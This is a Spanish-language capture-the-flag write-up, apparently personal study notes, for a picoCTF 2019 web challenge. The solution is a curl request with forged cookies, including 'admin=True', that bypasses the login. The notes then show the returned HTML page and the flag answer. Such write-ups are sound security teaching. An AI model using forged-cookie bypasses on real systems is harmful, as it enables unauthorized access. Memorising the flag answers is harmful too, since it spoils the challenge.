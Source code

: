#Software #Hacking #WebExplotation #Web  #Redes 
# Definición
The factory is hiding things from all of its users. Can you login as Joe and find what they've been looking at? `https://jupiter.challenges.picoctf.org/problem/44573/` ([link](https://jupiter.challenges.picoctf.org/problem/44573/)) or http://jupiter.challenges.picoctf.org:44573
# Hints
- Hmm it doesn't seem to check anyone's password, except for Joe's?
# Solución
1. Tratamos de entrar con joe, pero no tenemos la contraseña.
2. Por lo que probamos entrar con otro usuario, y si bien nos deja entrar, no nos regresa la bandera.
3. Por lo que inspeccionamos la [[Red]] para ver como se maneja la solicitud.
4. Usamos curl para loggearnos como administrados en la página (usando [[CURL]]):
```bash
curl https://jupiter.challenges.picoctf.org/problem/44573/flag -H "Cookie: username=juan; password=a; admin=True"
```

Y obtenemos las bandera dentro del código:
```bash
<!DOCTYPE html>
<html lang="en">

<head>
    <title>Factory Login</title>


    <link href="https://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css" rel="stylesheet">

    <link href="https://getbootstrap.com/docs/3.3/examples/jumbotron-narrow/jumbotron-narrow.css" rel="stylesheet">

    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>

    <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>

</head>

<body>

    <div class="container">
        <div class="header">
            <nav>
                <ul class="nav nav-pills pull-right">
                    <li role="presentation" class="active"><a href="/">Home</a>
                    </li>
                    <li role="presentation"><a href="/logout" class="btn btn-link pull-right">Sign Out</a>
                    </li>
                </ul>
            </nav>
            <h3 class="text-muted">Factory Login</h3>
        </div>

        <div class="jumbotron">
            <p class="lead"></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{th3_c0nsp1r4cy_l1v3s_0c98aacc}</code></p>
        </div>


        <footer class="footer">
            <p>&copy; PicoCTF 2019</p>
        </footer>

    </div>
</body>

</html>
```
## Respuesta
picoCTF{th3_c0nsp1r4cy_l1v3s_0c98aacc}